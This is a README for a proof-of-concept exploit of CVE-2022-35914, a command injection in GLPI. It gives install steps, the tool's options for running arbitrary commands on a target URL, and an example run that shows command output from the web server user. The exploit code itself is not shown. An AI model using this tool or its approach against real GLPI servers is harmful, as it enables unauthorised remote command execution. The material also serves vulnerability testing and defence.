 # CVE-2022-35914 PoC

## References

- https://github.com/glpi-project/glpi/security/advisories/GHSA-c5gx-789q-5pcr

## Usage

```bash
pip install -r requirements.txt
```

```bash
./CVE-2022-35914.py -h
usage: CVE-2022-35914.py [-h] -u URL -c CMD [-f HOOK] [--check] [--user-agent USER_AGENT]

CVE-2022-35914 - GLPI - Command injection using a third-party library script

options:
  -h, --help            show this help message and exit
  -u URL                URL to test
  -c CMD                Command to launch
  -f HOOK               PHP hook function (default: exec)
  --check               Just check, no command execution.
  --user-agent USER_AGENT
                        Custom User-Agent
```

Example:

```bash
❯ ./CVE-2022-35914.py -u http://glpi
[+] Command output (Return code: 0):
 uid=48(apache) gid=48(apache) groups=48(apache)
```
